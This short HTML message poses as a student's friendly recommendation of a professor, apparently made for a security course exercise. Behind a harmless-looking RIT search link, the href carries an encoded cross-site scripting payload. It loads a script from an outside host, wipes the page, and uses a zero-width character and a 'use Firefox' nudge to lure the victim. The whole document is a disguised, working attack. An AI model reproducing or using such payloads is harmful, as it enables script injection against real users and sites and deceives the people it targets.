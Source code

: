 Hey, fellow student! Check out this awesome professor that I found.

<a href="http://www.se.rit.edu/search/node/Daniel+Krutz&lt;img+src=http:&amp;%2347;&amp;%2347;www.se.rit.edu&amp;%2347;sites&amp;%2347;all&amp;%2347;themes&amp;%2347;se&amp;%2347;assets&amp;%2347;img&amp;%2347;se-logo.png+style=display:none+onload=if(typeof(xssScript)&amp;%2361;&amp;%2361;&quot;undefined&quot;){var&nbsp;xssScript=document.createElement(&quot;script&quot;);xssScript.setAttribute(&quot;src&quot;,&quot;http:&amp;%2347;&amp;%2347;benwoodworth.net&amp;%2347;school&amp;%2347;swen-331&amp;%2347;se-xss.js&quot;);document.body.innerHTML=&quot;&quot;;document.body.appendChild(xssScript);}&gt;">
  ht&zwnj;tp://www.se.rit.edu/search/node/Daniel+Krutz
</a>  
(You should most definitely open this in FireFox, because reasons)
